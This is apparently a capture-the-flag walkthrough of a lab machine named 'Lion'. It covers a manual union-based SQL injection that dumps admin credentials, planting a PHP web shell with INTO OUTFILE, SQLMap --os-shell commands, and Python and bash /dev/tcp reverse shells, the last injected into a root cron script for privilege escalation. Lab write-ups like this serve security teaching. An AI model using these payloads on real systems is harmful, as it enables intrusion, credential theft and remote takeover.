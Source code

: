 # Lion
![index image](../images/lion/index.webp)

## Recon
During the recon phase using Nmap and Feroxbuster, we found a few interesting things, such as an endpoint `/admine/includes` that contains some information, but we didn’t find anything suspicious. The Nmap scan didn’t reveal anything unusual either. There is a database and an RPC service open, but nothing significant was discovered.
![nmap image](../images/lion/nmap.webp)
![feroxbuster image](../images/lion/feroxbuster.webp)

Looking at the `/index.php` directory, we notice a search field that sends a POST request to `search.php` (the parameter used is `searchtitle`, as seen in the form). By attempting an SQL injection query, we can retrieve the first flag.
![search.php image](../images/lion/search.webp)

## Exploitation
This is an SQLi vulnerability. Therefore, we can exploit it either manually or by using SQLMap. Since my focus is on manual exploitation, I will only provide a few steps for using SQLMap. For manual exploitation, we’ll first attempt to determine the number of columns using the following query: `' order by 7 #`

After the `ORDER BY 8`, we get no results, so there are 7 columns. This indicates a union-based SQL injection. To retrieve some information, we will run the following queries:
* Query to retrieve the current database name `' union select 1,database(),3,4,5,6,7 #`. The database name is: news.
* In the following query `' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news' #`, we can retrieve the tables from the database. The following tables are present: `tbladmin`, `tblcategory`, `tblcomments`, `tblpages`, `tblposts`, `tblsubcategory`. Since we have an `/admin` endpoint, we can check if we can obtain the admin password.
* For get others columns, we have `' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' #`. We have the following columns: `AdminUserName` and `AdminPassword`.
* We will retrieve the results from both columns using the follow query `' union select 1,AdminUserName,3,4,5,6,7 from tbladmin; #` and `' union select 1,AdminPassword,3,4,5,6,7 from tbladmin; #`.

We have the following user/password: `admin:$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`.
I ran it through Hash Identifier, and it’s bcrypt. I tried cracking it with Hashcat, but it didn’t work. So, let's attempt to place a shell in the `includes` directory instead.
`' union select 1,<?php system($_GET['cmd']);?>,3,4,5,6,7 into outfile "/var/www/html/includes/x.php #`
![shell 1 image](../images/lion/shell1.webp)

Alright, we have a PHP shell. However, to save time, I’ll list the SQLMap commands below. Using SQLMap, we can run: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste"`
![sqlmap 1 image](../images/lion/sqlmap1.webp)

Listing the databases and the current database: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --dbs --hex` and `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --current-db --hex`

As we observed manually, the admin password is hashed. Therefore, to upload a shell via SQLMap, we can use the following parameter: `--os-shell`. This option allows SQLMap to attempt to spawn an operating system shell on the target system if the SQL injection is successful.

`python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --os-shell`

Now, we can get shell and reverse shell with python.
![sqlmap 2 image](../images/lion/shell2.webp)
![sqlmap 3 image](../images/lion/shell3.webp)
![sqlmap 4 image](../images/lion/shell4.webp)
```bash
export RHOST="IP";export RPORT=PORTA;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

## Post Exploitation
I ran `linpeas` to find potential vectors for privilege escalation. We found a `.sh` file (with misconfigured permissions) that is set to run as root in a cron job. This seems to be the likely path, but let’s examine the rest of the system to be sure.
![pos 1 image](../images/lion/pos1.webp)
![pos 2 image](../images/lion/pos2.webp)
![pos 3 image](../images/lion/pos3.webp)

There appears to be a logrotate version 3.8.6, which may be vulnerable. If our attempt with the cron job doesn’t work, we can try exploiting the logrotate vulnerability as an alternative.
![pos 4 image](../images/lion/pos4.webp)

Going back to the cron job, since we have write permissions on the file, we can modify it and apply the payload. After making the changes, we just need to wait for the cron job to execute and gain privilege escalation.

`/bin/bash -c 'sh -i >& /dev/tcp/ip/porta 0>&1'`
![pos 5 image](../images/lion/pos5.webp)
![pos 6 image](../images/lion/pos6.webp)